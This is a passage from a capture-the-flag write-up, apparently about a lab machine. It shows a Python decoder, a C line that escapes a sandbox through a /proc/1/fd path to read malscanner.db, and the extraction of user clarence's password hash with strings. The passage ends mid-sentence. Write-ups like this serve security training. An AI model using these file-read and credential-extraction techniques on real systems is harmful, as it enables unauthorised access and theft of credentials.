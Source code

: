     words = re.findall(r"sys_57311\(\) = 0x([a-f0-9]+)", resp.text)

    res_file = b''.join([struct.pack("Q", int(w, 16)) for w in words])
    with open(sys.argv[2], "wb") as f:
        f.write(res_file)



## Shell as clarence

### Exploit

I'll modify the exploit to go after the `malscanner.db` file that I
noted in the sourcecode. The version in the source download was empty,
but there could be more in there on production.



        FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../var/www/malscanner/malscanner.db", "r");



When I compile and upload, there are a *lot* more Ignored Syscalls:

![](/img/image-20220907153245255.png)

It works:



    oxdf@hacky$ python3 decode.py http://10.10.11.141/viewer/a8e593808380b5999301881b5c821d36/ malscanner.db
    oxdf@hacky$ file malscanner.db 
    malscanner.db: SQLite 3.x database, last written using SQLite version 3034001



### Get Password

#### Read malscanner.db

I'll open the file in `sqlite3`, but it seems it's corrupt:



    oxdf@hacky$ sqlite3 malscanner.db 
    SQLite version 3.31.1 2020-01-27 19:55:54
    Enter ".help" for usage hints.
    sqlite> .tables
    Error: database disk image is malformed



Running strings on the binary, this line jumps out:



    md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf2021-09-14 18:39:55.237074clarence2021-09-14 18:36:46.227819



It seems like it has a hash, a date, a username, and another date. If
that's right, then this is a hash:

